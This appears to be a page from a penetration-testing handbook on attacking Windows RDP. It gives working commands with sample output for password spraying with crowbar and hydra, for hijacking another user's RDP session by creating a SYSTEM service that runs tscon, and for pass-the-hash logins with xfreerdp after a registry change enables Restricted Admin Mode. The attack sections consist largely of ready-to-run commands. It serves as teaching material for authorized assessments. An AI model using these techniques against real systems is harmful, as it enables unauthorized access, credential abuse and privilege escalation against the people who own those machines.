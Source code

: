 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# RDP

## Misconfigurations

### Weak Authentication Configuration

RDP uses traditional user authentication, meaning that brute-forcing methods are a common attack vector.&#x20;

{% hint style="info" %}
Although it is _very_ unlikely, it is possible to find an RDP service without a password if there has been a misconfiguration.
{% endhint %}

In most cases, RDP will be configured to lock or disable a users account after a certain number of failed login attempts. In these cases, performing password spraying - rather than traditional brute-forcing techniques - will be the best method if there are no known credentials.

## Brute-Forcing

### Password Spraying Using Crowbar

Using the [crowbar.md](../../../toolbox/tooling/password-attacks/crowbar.md "mention") tool, password spraying can be attempted against the RDP service.

```bash
clue@machine[~]$ crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'

2022-04-07 15:35:50 START
2022-04-07 15:35:50 Crowbar v0.4.1
2022-04-07 15:35:50 Trying 192.168.220.142:3389
2022-04-07 15:35:52 RDP-SUCCESS : 192.168.220.142:3389 - administrator:password123
2022-04-07 15:35:52 STOP
```

### Password Spraying Using Hydra

[hydra.md](../../../toolbox/tooling/password-attacks/hydra.md "mention") can also be used for password spraying.

```bash
clue@machine[~]$ hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-25 21:44:52
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 8 login tries (l:2/p:4), ~2 tries per task
[DATA] attacking rdp://192.168.2.147:3389/
[3389][rdp] host: 192.168.2.143   login: administrator   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-25 21:44:56
```

## RDP Session Hijacking

If an attacker gains access to a machine _and an account with **local administrator privileges**_, they may be able to perform RDP Session Hijacking. If a user connects via RDP to the compromised machine, the users remote desktop session can be hijacked, allowing the attacker to escalate privileges and impersonate the account.

> In the below example, the attacker is using the local 'juurena' account and will be hijacking the 'lewen' account.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To impersonate a user, the attacker needs to gain **SYSTEM** privileges and use the Microsoft [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) binary that enables users to connect to another desktop session.&#x20;

It works by specifying which `SESSION ID` (`4` for the `lewen` session in our example) we would like to connect to which session name (`rdp-tcp#13`, which is our current session). So, for example, the following command will open a new console as the specified `SESSION_ID` within our current RDP session:

```powershell
C:\> tscon [TARGET_SESSION_ID] /dest:[OUR_SESSION_NAME]
```

If we have local administrator privileges, we can use several methods to obtain SYSTEM privileges, such as [psexec.md](../../../toolbox/tooling/post-exploitation/psexec.md "mention") or [mimikatz.md](../../../toolbox/tooling/post-exploitation/mimikatz.md "mention"). A simple trick is to create a Windows service that, by default, will run as Local System and will execute any binary with SYSTEM privileges.

We will use [Microsoft sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) binary. First, we specify the service name (`sessionhijack`) and the `binpath`, which is the command we want to execute. Once we run the following command, a service named `sessionhijack` will be created.

```powershell
C:\> query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

[SC] CreateService SUCCESS
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

To run the command, we can start the `sessionhijack` service :

```powershell
C:\> net start sessionhijack
```

Once the service is started, a new terminal with the `lewen` user session will appear. With this new account, we can attempt to discover what kind of privileges it has on the network, and maybe we'll get lucky, and the user is a member of the Help Desk group with admin rights to many hosts or even a Domain Admin.

## Pass-the-Hash

Perform an RDP PtH attack to gain GUI access to the target system using tools like [xfreerdp.md](../../../toolbox/tooling/post-exploitation/xfreerdp.md "mention").

**Restricted Admin Mode**, which is disabled by default, should be enabled on the target host; otherwise, we will be prompted with the following error:\


<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

**Adding the DisableRestrictedAdmin Registry Key**

```cmd-session
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Once the registry key is added, we can use `xfreerdp` with the option `/pth` to gain RDP access:

```bash
clue@machine[~]$ xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9

[09:24:10:115] [1668:1669] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state            
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr                                   
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd                                  
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr                                 
[09:24:11:427] [1668:1669] [INFO][com.freerdp.primitives] - primitives autodetect, using optimized                               
[09:24:11:446] [1668:1669] [INFO][com.freerdp.core] - freerdp_tcp_is_hostname_resolvable:freerdp_set_last_error_ex resetting error state
[09:24:11:446] [1668:1669] [INFO][com.freerdp.core] - freerdp_tcp_connect:freerdp_set_last_error_ex resetting error state        
[09:24:11:464] [1668:1669] [WARN][com.freerdp.crypto] - Certificate verification failure 'self signed certificate (18)' at stack position 0
[09:24:11:464] [1668:1669] [WARN][com.freerdp.crypto] - CN = dc-01.superstore.xyz                                                     
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] - VERSION ={                                                              
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductMajorVersion: 6                                           
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductMinorVersion: 1                                           
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductBuild: 7601                                               
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        Reserved: 0x000000                                               
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        NTLMRevisionCurrent: 0x0F                                        
[09:24:11:567] [1668:1669] [INFO][com.winpr.sspi.NTLM] - negotiateFlags "0xE2898235"

<SNIP>

```

If it works, we'll now be logged in via RDP as the target user without knowing their cleartext password.

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Keep in mind that this will not work against every Windows system we encounter, but it is always worth trying in a situation where we have an NTLM hash, know the user has RDP rights against a machine or set of machines, and GUI access would benefit us in some ways towards fulfilling the goal of our assessment.
